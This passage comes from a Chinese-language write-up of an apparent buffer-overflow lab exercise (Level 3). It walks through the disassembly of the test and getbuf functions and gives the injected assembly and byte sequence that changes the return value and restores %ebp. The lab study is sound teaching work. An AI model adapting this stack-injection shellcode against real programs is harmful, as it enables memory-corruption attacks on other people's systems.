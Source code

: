 从 *getbuf* 的汇编代码可以看出，该函数在程序地址 *0x8049205* 处赋值 *%eax* 为 *1* ，正常情况下其返回值一定为 *1* ，所以，我们植入的攻击代码应对 *%eax* 的值进行修改，使其返回函数 *test* 时其值为 *cookie* 。

> > ```assembly
> > 08048daa <test>:
> >  8048daa:	55                   	push   %ebp
> >  8048dab:	89 e5                	mov    %esp,%ebp
> >  8048dad:	53                   	push   %ebx
> >  8048dae:	83 ec 24             	sub    $0x24,%esp
> >  8048db1:	e8 da ff ff ff       	call   8048d90 <uniqueval>
> >  8048db6:	89 45 f4             	mov    %eax,-0xc(%ebp)
> >  8048db9:	e8 36 04 00 00       	call   80491f4 <getbuf>
> >  8048dbe:	89 c3                	mov    %eax,%ebx
> >  8048dc0:	e8 cb ff ff ff       	call   8048d90 <uniqueval>
> >  8048dc5:	8b 55 f4             	mov    -0xc(%ebp),%edx
> >  8048dc8:	39 d0                	cmp    %edx,%eax
> >  8048dca:	74 0e                	je     8048dda <test+0x30>
> > ```

从 *test* 函数的汇编代码可以看出，程序地址 *0x8048db9* 处调用函数 *getbuf* ，下一步将执行地址 *0x8048dbe* ，所以，攻击代码的返回地址应为 *0x8048dbe* 。程序返回至 *test* 后，程序地址 *0x8048dc5* 处用到寄存器 *%ebp* 的值，而 *%ebp* 的值存放在运行栈上已被我们的输入字符串所修改，所以，在攻击代码中应给 *%ebp* 赋回正确的值后返回（从下面运行时栈示意图中可知其值应为 *0x55683da0* ）。

编写攻击代码如下：

> ```assembly
> # example_for_l3.S
> 
> movl	$0x1a245b76,%eax
> movl	$0x55683da0,%ebp
> pushl	$0x8048dbe
> ret
> ```

反汇编得到：

> ```assembly
> # example_for_l3.d
> 
> example_for_l3.o:     file format elf32-i386
> 
> Disassembly of section .text:
> 
> 00000000 <.text>:
>    0:	b8 76 5b 24 1a       	mov    $0x1a245b76,%eax
>    5:	bd a0 3d 68 55       	mov    $0x55683da0,%ebp
>    a:	68 be 8d 04 08       	push   $0x8048dbe
>    f:	c3                   	ret    
> ```

所以，该段攻击代码的字节序列为："*b8 76 5b 24 1a bd a0 3d 68 55 68 be 8d 04 08 c3*" 。攻击代码放置位置同 *Level 2* ，其运行栈示意图如下：

![](/fig_l3_1.jpg)
